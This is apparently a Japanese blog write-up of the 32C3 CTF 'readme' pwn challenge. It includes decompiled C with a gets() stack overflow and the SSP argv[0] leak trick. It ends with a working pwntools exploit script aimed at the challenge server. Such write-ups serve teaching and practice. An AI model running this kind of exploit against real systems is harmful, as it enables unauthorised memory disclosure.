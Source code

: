 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2015/32c3-ctf-readme/
  - /blog/2016/01/02/32c3-ctf-readme/
date: 2016-01-02T23:20:13+09:00
tags: [ "ctf", "writeup", "pwn", "xinetd", "buffer-overflow", "stack-smashing-protection" ]
---
```


# 32C3 CTF readme

手decompileした結果を眺めてみて、flagを取り出す方法が分からなかったので、他人のwriteupを見て解いた。初心者が初見で解くのはつらい問題だと感じる。

## [pwn 200: readme](https://github.com/ctfs/write-ups-2015/tree/master/32c3-ctf-2015/pwn/readme-200)

>   Can you [read]() the flag?  
>   >   nc 136.243.194.62 1024

入力が2回あるバイナリ。1回目の入力にstack上のbuffer overflowがある。ただしsspがある。

``` sh
$ ./readme.bin
Hello!
What's your name? XXX
Nice to meet you, XXX.
Please overwrite the flag: YYY
Thank you, bye!

$ checksec --file readme.bin
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   readme.bin

$ perl -e 'print "X"x300,$/, "X",$/' | ./readme.bin
Hello!
What's your name? Nice to meet you, XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX.
Please overwrite the flag: Thank you, bye!
*** stack smashing detected ***: ./readme.bin terminated
======= Backtrace: =========
/usr/lib/libc.so.6(+0x72055)[0x7fdb53982055]
/usr/lib/libc.so.6(__fortify_fail+0x37)[0x7fdb53a095d7]
/usr/lib/libc.so.6(__fortify_fail+0x0)[0x7fdb53a095a0]
./readme.bin[0x4008ae]
======= Memory map: ========
00400000-00401000 r-xp 00000000 08:02 5252127                            /home/user/readme.bin
...
```

decompileすると以下のようになっている。

``` c
#include <stdio.h>
#include <stdlib.h>
int canary = 0; // randomized?
char flag[] = "32C3_TheServerHasTheFlagHere\x2e\x2e\x2e";
void func(void) {
    char buf[0x118];
    buf[0x108] = canary;
    __printf_chk(1, "Hello!\nWhat's your name? ");
    if (gets(buf) == NULL) {
        exit(1);
    }
    __printf_chk(1, "Nice to meet you, %s.\nPlease overwrite the flag: ", buf);
    for (register int i = 0; i < 20; ++i) {
        register int c = getc(stdin);
        switch (c) {
            case EOF:
                exit(1);
            case '\n':
                memset(flag + i, 0, 0x20 - i);
                break;
            default:
                flag[i] = c;
        }
    }
    puts("Thank you, bye!");
    /* canary check */
    if (buf[0x108] != canary) {
        __stack_chk_fail();
    }
}
int main(void) {
    setbuf(stdout, NULL);
    func();
    return 0;
}
```

他のwriteup曰く、

-   sspによる`*** stack smashing detected ***: ./readme.bin terminated`によって`argv[0]`の値を表示できるので、これを書き換える。
-   上の出力は端末に直接吐かれるが、環境変数`LIBC_FATAL_STDERR_=1`と指定しておくと標準エラー出力に流れてきて、network越しでも見えるようになる。
-   flagは`.data` sectionである`0x600d20`にあり、後に上書きされるが、`0x400d20`にも書き込まれている。

ということなので、その通りにやればflagが出てくる。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools

import argparse
parser = argparse.ArgumentParser()
parser.add_argument('--local', action='store_true')
args = parser.parse_args()

context.log_level = 'debug'
if args.local:
    p = process('./readme.bin')
else:
    p = remote('136.243.194.62', 1024)

p.sendline(
    'X' * 0x210 # ($rsp at 0x4006ee, entry point) - ($rsp at 0x40080e, before gets)
    + p64(1) # argc
    + p64(0x400d20) # argv[0] <- flag
    + p64(0x0) # argv sentinel
    + p64(0x600d20) # envp[0] <- overwritten flag
    )
p.sendline('LIBC_FATAL_STDERR_=1')
p.recvall()
```

[Gallopsled/pwntools](https://github.com/Gallopsled/pwntools)というのを教えてもらったので使ってみた。

### 参考

-   <https://nuc13us.wordpress.com/2015/12/31/32c3-ctf-pwn-200-readme/>
-   <http://nandynarwhals.org/2015/12/31/32c3ctf-readme-pwn200/>
-   <http://stackoverflow.com/questions/4290336/how-to-redirect-runtime-errors-to-stderr>
-   <http://softwaretechnique.jp/OS_Development/Supplement/Binary/elf_stack.html>

